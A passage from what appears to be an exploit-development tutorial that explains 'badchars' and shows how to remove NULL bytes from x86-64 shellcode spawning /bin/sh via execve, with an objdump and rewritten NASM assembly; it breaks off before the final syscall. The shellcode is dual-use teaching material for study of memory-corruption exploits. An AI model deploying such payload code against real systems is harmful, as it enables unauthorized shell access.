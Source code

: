 These `00` characters are an example of something exploit developers refer to as badchars. Badchars are basically hex values that should not appear in our shellcode because they cause the target program to behave differently. NULLs may not be the only badchar in a target program; they are just the most common. For example, if you were targeting a networking application that used 0x09 (tab) to indicate the end of a message, then 0x09 would also be a badchar that you would avoid using in your shellcode.

Whenever you have characters that cause the target program to behave in a special way, you should treat those characters as badchars and avoid using them in your shellcode. Here, we will go over a method you can use in order to remove NULL characters from your shellcode.

## Removing NULLs

```
b8 3b 00 00 00          mov    eax,0x3b
bb 00 00 00 00          mov    ebx,0x0
53                      push   rbx
48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f6e69622f
73 68 00
53                      push   rbx
48 89 e7                mov    rdi,rsp
be 00 00 00 00          mov    esi,0x0
ba 00 00 00 00          mov    edx,0x0
0f 05                   syscall
```

In order to remove the `00` values, we have to first figure out what causes them. When we look at the object dump (shown above), we can see that there are two main reasons why our shellcode contains NULLs:
1. Doing `mov` commands with zeros in the input will lead to zeros in the shellcode.
2. Doing `mov` commands without enough "space" in the input will cause zeros to be automatically appended at the end.

To get around the first issue, we can just use `xor reg, reg` instead of `mov reg, 0`. XORing something with itself will always result in zero. Getting around the second issue will take more steps. We'll first have to zero out the register by using `xor reg, reg`, and then we'll have to move the amount that we want into a smaller register (i.e. use `al` or something instead of `rax`). Another thing that we can do is we can move the high end bits into a smaller register, shift the register left, and move the low end bits into the smaller register.

When we do all of these things, we end up with the following assembly code:
```
section .text ; Text section for code
global _start ; Begins execution at _start
_start:

; Get 59 in rax 
xor rax, rax ; Clear the rax register
mov al, 59 ; Syscall for execve

; Push a string terminator onto the stack
xor rbx, rbx ; Sets rbx to NULL
push rbx ; Pushes a NULL byte onto the stack

; Push /bin/sh onto the stack, and get a pointer to it in rdi
mov ebx, 0x68732f6e ; Moves "n/sh" (written backwards in ASCII) into lower-end bits of rbx
shl rbx, 16 ; Pushes "n/sh" to the left to make more room for 2 more bytes in rbx
mov bx, 0x6962 ; Move "bi" into lower-end bits of rbx. rbx is now equal to "bin/sh" written backwards
shl rbx, 16 ; Makes 2 extra bytes of room in rbx
mov bh, 0x2f ; "Moves /" into rbx. rbx is now equal to "\x00/bin/sh" written backwards
             ; Note that we are moving 0x2f into bh, not bl. So there is a NULL byte at the beginning
push rbx ; Push the string onto the stack
mov rdi, rsp ; Get a pointer to the string "\x00/bin/sh" in rdi
add rdi, 1 ; Add one to rdi, which will get rid of the NULL byte at the beginning.
```